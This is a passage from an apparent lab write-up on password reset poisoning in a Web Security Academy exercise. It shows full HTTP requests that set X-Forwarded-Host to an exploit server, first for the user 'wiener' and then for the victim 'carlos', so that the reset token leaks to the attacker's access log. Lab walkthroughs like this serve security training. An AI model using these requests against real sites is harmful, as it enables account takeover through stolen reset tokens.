 and the password reset link looks like the following.

```
https://0af80040036fb9c3c1408200007e00ec.web-security-academy.net/forgot-password?temp-forgot-password-token=n2M9YaPS4wOGXfcXtLjbsIY74k31PJHX
```

Sometimes a vulnerable server is generating this link by viewing the host from headers like `Origin, Refferer, Host`. This is not the case here but there are some other headers that are used to specify a host i.e `X-Forwarded-Host`. By sending a request using `X-Forwarded-Host`.

```
POST /forgot-password HTTP/2
Host: 0af80040036fb9c3c1408200007e00ec.web-security-academy.net
Cookie: session=UTCkA7KeHmmNpe4rATS6F1AXoQffWQ44
Content-Length: 15
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="111", "Not(A:Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Forwarded-Host: exploit-0ac400cc0374b9f3c19a811101ed00f1.exploit-server.net

username=wiener
```

Our reset password also changed in the email client and now they look like the following.

```
https://exploit-0ac400cc0374b9f3c19a811101ed00f1.exploit-server.net/forgot-password?temp-forgot-password-token=n2A9YaPSXwOGXfcXtLjbTIY74k31PZHM
```

So this will change the host address in the link and if we click on it they send the GET request with a password reset token to our exploit server and we can get the token using the access log of the exploit server. So by poisoning the link using this method if the victim clicks on the link and we get his token and reset its password.

```
POST /forgot-password HTTP/2
Host: 0af80040036fb9c3c1408200007e00ec.web-security-academy.net
Cookie: session=UTCkA7KeHmmNpe4rATS6F1AXoQffWQ44
Content-Length: 15
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="111", "Not(A:Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Forwarded-Host: exploit-0ac400cc0374b9f3c19a811101ed00f1.exploit-server.net

username=carlos
```
